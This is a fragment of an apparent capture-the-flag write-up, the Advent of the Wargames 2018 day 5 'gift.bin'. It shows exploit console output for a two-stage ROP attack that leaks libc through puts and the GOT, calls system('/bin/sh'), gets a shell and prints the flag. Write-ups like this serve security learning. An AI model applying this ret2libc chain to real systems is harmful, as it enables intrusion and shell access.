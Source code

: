 ```
[+] entering the codes...: access granted
[*] building stage1 payload to leak libc address
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift.bin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for '/home/matth/security/writeups/aotw2018ctf-writeups/day5/gift.bin'
[*] stage 1 rop: read(puts()); call win
0x0000:        0x8048450 puts(134533148)
0x0004:        0x80483f1 <adjust @0xc> pop ebx; ret
0x0008:        0x804d01c got.puts
0x000c:        0x8048703 0x8048703()
[*] sending payload 1
[*] Leaked puts: 0xf7e15360
[*] building stage2 payload to spawn shell
[*] rebased libc address: 0xf7dae000
[*] stage 2 rop: system("/bin/sh")
0x0000:       0xf7dead10 system(4159871183)
0x0004:           'baaa' <return address>
0x0008:       0xf7f298cf arg0
[*] sending payload 2
[*] got shell
[+] flag:  AOTW{s4nt4_l0v3s_BL4CKh4ts}
[*] Closed connection to 18.205.93.120 port 1205
```
